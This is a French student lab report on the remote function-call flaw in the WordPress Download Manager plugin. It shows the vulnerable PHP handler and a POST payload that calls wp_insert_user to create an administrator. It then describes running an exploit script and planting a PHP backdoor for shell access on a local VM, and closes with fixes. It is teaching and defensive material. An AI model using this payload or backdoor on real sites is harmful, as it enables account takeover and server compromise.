\documentclass[a4paper,oneside,10pt]{article}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc} 
\usepackage{hyperref}
\usepackage{amsmath,amssymb}
\usepackage{fullpage}
\usepackage{graphicx}
\usepackage{url}
\usepackage{xspace}
\usepackage[french]{babel}
\usepackage{multicol}
\usepackage{geometry}
\usepackage{appendix}
\usepackage{csvsimple}



\title{TP Faille Applicative}

\author{Raynald DANTIGNY --- Jordan DE GEA --- William DUCLOT\\
ENSIMAG 3ème année ISI}
\begin{document}

\maketitle

%\begin{figure}[ht]
%\centering
%\includegraphics[width=\textwidth]{content/Validator.png}
%\caption{Validator}
%\label{fig4}
%\end{figure} 

\section{Introduction}
WordPress est un système de gestion de contenu libre écrit en php. Il est utilisé par plusieurs millions de sites. Des développeurs peuvent facilement créer des plugins pour WordPress. Ces plugins ajoutent des fonctionnalités non disponibles nativement pour les utilisateurs (comme mieux gérer la visibilité des pages, ajouter des thèmes, gérer les utilisateurs…). 

Nous nous intéressons ici à un plugin nommé “Download Manager”. Comme son nom l'indique, le rôle de ce plugin est de gérer les téléchargements depuis le site WordPress. Il est notamment utilisé par des sites de e-store qui demandent un contrôle des téléchargements et un accès aux fichiers dépendant des utilisateurs.

\section{Architecture typique}
Cette faille peut s'appliquer à tout serveur web utilisant Wordpress et ce plugin (sous condition que les versions soient vulnérables) à partir d'un terminal émulant un navigateur (figure \ref{sequence}).
\\
Nous prendrons donc comme architecture d'exemple un site WordPress de e-commerce vendant des logiciels. Ce site a besoin d’imposer un contrôle au niveau de ses téléchargements pour permettre uniquement aux clients qui ont payé de télécharger le logiciel. Le serveur WordPress utilise donc le plugin Download Manager.
\\
Dans notre exemple, le client veut télécharger un logiciel qu'il a préalablement acheté. Il demande donc le téléchargement. Il obtient une page avec un bouton permettant de télécharger ce fichier. Ce bouton a comme action d'envoyer une requête AJAX demandant l'envoi du fichier. (Voir figure \ref{sequence})

\newpage
\begin{figure}[ht]
\centering

\includegraphics[width=\textwidth]{img/sequence.png}
\caption{Download manager}
\label{sequence}
\end{figure} 

\section{Faille}
On voit dans notre cas d’utilisation que le navigateur web effectue une requête AJAX vers le serveur WordPress. Pour qu’une fonction PHP de ce plugin soit appelée, il suffit de spécifier dans une requête POST cette dernière. Le plugin Download Manager étant libre, on peut regarder le code source de ce dernier~: en étudiant le code source en PHP, on peut trouver une méthode nommée \texttt{wpdm\_ajax\_call}. Cette méthode est donc appelée si la requête POST envoyée au serveur a pour attribut action la valeur \texttt{wpdm\_ajax\_call}. 

Cette méthode est censée être appelée suite à une requête AJAX exécutée dans un code javascript généré par le plugin Download Manager. On s’intéresse donc à cette méthode qui a le mot clé \texttt{call}, ce qui peut mettre la puce à l’oreille d’une éventuelle faille de sécurité. 

\begin{verbatim}
function wpdm_ajax_call_exec()
 {
    if (isset($_POST['action']) && $_POST['action'] == 'wpdm_ajax_call') {
         if (function_exists($_POST['execute']))
             call_user_func($_POST['execute'], $_POST);
         else
             echo "function not defined!";
         die();
     }
}
\end{verbatim}

Cette fonction est assez simple à comprendre, elle exécute une fonction PHP spécifiée dans la requête AJAX dans l’attribut \texttt{execute} si cette dernière est spécifiée et existe bien sur le serveur. La fonction spécifiée dans \texttt{execute} est appelée avec comme paramètres les autres attributs de la requête POST.

La requête à envoyer au serveur pour exécuter une fonction du plugin est donc:
\vspace{4em}

\begin{verbatim}
{
'action' : 'wpdm_ajax_call',
     ‘execute' : 'fonction_php_a_executer',
'param1' : val1,
'param2': val2,
….
}
\end{verbatim}

Normalement,  la fonction \texttt{wpdm\_ajax\_call\_exec} est appelée lorsque le client demande un téléchargement. En effet, on voit dans le diagramme de séquence (figure \ref{sequence}) que le serveur envoie du code HTML contenant un bouton pour télécharger le fichier. Ce code est lié à un code javascript qui envoie une requête ajax au serveur lorsque l’utilisateur clique sur ce bouton. L’utilisation normale veut que l’utilisateur ne modifie pas ce script, et que la requête ajax appelle \texttt{wpdm\_ajax\_call\_exec()} avec comme attribut \texttt{execute} une méthode interne au plugin qui envoie le fichier à l’utilisateur via http.

Cependant cette fonction ne vérifie pas la fonction exécutée. Si en utilisation normale, la fonction exécutée est censée être une fonction du plugin (ce qui permet d’avoir un semblant de contrôleur), cette dernière ne vérifie pas si la fonction spécifié n’est pas interne à WordPress avant de l’exécuter. On peut donc exploiter la faille en exécutant une fonction critique comme celle permettant d’ajouter un utilisateur. Il suffit donc d’envoyer la requête suivante:


\begin{verbatim}
{
'action' : 'wpdm_ajax_call',
     ‘execute' : 'wp_insert_user',
'user_login' : username,
'user_pass' : pwd,
'role' : 'administrator'
}
\end{verbatim}

Alors, on peut insérer un utilisateur administrateur en envoyant la requête depuis n’importe quelle page. Avec ce compte créé, on peut ensuite administrer le site web, voire tenter d'attaquer le serveur lui-même.

\section{Expérimentation}
\subsection{Récupération du projet}
Les fichiers nécessaires à la mise en place de l’expérimentation sont fournis dans l'archive \texttt{.tar.gz}. Notez les répertoires vagrant/ et exploit/.
 
\subsection{Mise en place de l’environnement}
L’exploit de la faille va se faire sur un site wordpress hébergé en local sur une machine virtuelle. Pour ceci, on utilise le gestionnaire de VM Vagrant. Installer Vagrant et le plug-in vagrant-hostsupdater :
\begin{verbatim}
vagrant plugin install vagrant-hostsupdater
\end{verbatim}

Vous pouvez maintenant exécuter \texttt{vagrant up} pour créer la machine virtuelle et la provisionner (cette étape peut prendre un certain temps, selon votre débit internet)

Une fois ceci fait, vous pouvez normalement accéder à l’addresse http://wordpress-exploit.dev sur notre navigateur~: c’est le site hébergé sur la VM Vagrant que l’on va attaquer (figure \ref{hello_world}). Ce site a les caractéristiques suivantes : 
\begin{verbatim}
Wordpress version 4.1
Plugin Download Manager version 2.7.1
PHP version 5.6
\end{verbatim}

\begin{figure}[ht]
\centering

\includegraphics[width=\textwidth]{img/hello_world.png}
\caption{Site wordpress}
\label{hello_world}
\end{figure} 

\subsection{Exploitation de la faille}
L’exploitation de la faille se fait au moyen d’un script python écrit par Claudio Vivani (http://www.homelab.it). Ce script va effectuer la requête POST expliquée dans la partie III pour créer un nouvel utilisateur avec les droits administrateur.

Pour lancer le script, placez-vous dans le dossier exploit/ et lancez la commande :
\begin{verbatim}
./exploit.py -t http://wordpress-exploit.dev
\end{verbatim}

La requête POST devrait réussir et le script vous indique sur la sortie standard le nom d’utilisateur et le mot de passe associé (figure \ref{exploit}).

\begin{figure}
\centering

\includegraphics[width=\textwidth]{img/exploit.png}
\caption{Exploit}
\label{exploit}
\end{figure} 

Essayez ce login/password sur la page http://wordpress-exploit.dev/wp-admin : vous constaterez que vous pouvez bien vous connecter avec les droits administrateur.
\vspace{4em}

\subsection{Aller plus loin}
Avoir un accès administrateur permet de défacer le site très simplement, ainsi qu’avoir un accès à certaines données potentiellement confidentielles. Mais on peut aller plus loin : étant administrateur, il est possible d’éditer le code PHP d’une extension pour, par exemple, y insérer un backdoor PHP.

Dans l’onglet Plugins > Installed plugins, activez l’extension “Hello Dolly”. Puis dans l’onglet Plugins > Editor, sélectionnez le plugin Hello Dolly (à droite) et remplacez son contenu par le contenu du fichier exploit/backdoor.php (source: https://github.com/dberliner/php-backdoor).

Vous avez désormais accès à un shell sur le serveur web, à partir duquel vous pourrez faire ce que vous voudrez (scan des ports, profiter d’une faille Linux, tenter une escalade de privilèges…) (figure \ref{shell}).

\begin{figure}
\centering

\includegraphics[width=\textwidth]{img/shell.png}
\caption{Shell}
\label{shell}
\end{figure}

\subsection{Nettoyage}
Pour supprimer ce que vous avez installé pour cette expérimentation, exécutez les commandes suivantes~:

\begin{verbatim}
cd vagrant
vagrant destroy -f
vagrant plugin uninstall vagrant-hostsupdater
\end{verbatim}

\section{Correction de la faille}
Les éditeurs du plugin ont plusieurs moyens de corriger cette faille. Une première solution serait de modifier la fonction \texttt{wpdm\_ajax\_call} pour y ajouter un contrôle du nom de la méthode. On pourrait, par exemple, ajouter un dictionnaire des fonctions autorisées à être appelées depuis cette méthode et vérifier la présence de la fonction spécifié dans \texttt{execute} dans le dictionnaire. 

Une autre solution, plus propre, serait de créer un vrai contrôleur qui peut rediriger uniquement vers les fonctions du plugin, en créant une sorte d’encapsulation des fonctions WordPress. 

L’administrateur du site WordPress doit être conscient que les plugins peuvent être développés par n’importe qui et que ces derniers peuvent volontairement ou non (ce qui est le cas ici) compromettre la sécurité de son site. Il faut donc éviter des plugins critiques venant de développeurs non reconnus. En revanche, un plugin à risque faible (ex: plugin de style) peut être installé même s’il provient d’un développeur non reconnu.

Il est fortement conseillé de mettre à jour régulièrement ses plugins, car une faille peut être vite exploitée. Normalement, les mises à jour corrigent les failles. 

Si vos connaissance en PHP le permettent, il est toujours possible de jeter un coup d’oeil au code source.

\section{Glossaire et références}
\subsection{Glossaire}
AJAX: Cette technologie permet d'envoyer des requêtes http asynchrone depuis un code javascript exécuté en local sur le navigateur web du client. L'objectif est d'avoir des pages dynamiques qui chargent des données depuis le serveur sans avoir à raffraichir la page.
\\
PHP: C'est un langage utilisé par des serveurs Web. Il est nottament utilisé sur les serveurs Apache.
\\
\subsection{Références}
\url{http://www.malekal.com/fr-exemple-piratage-hack-wordpress/}
\\
\url{https://blog.sucuri.net/2014/12/security-advisory-high-severity-wordpress-download-manager.html}



\end{document} 
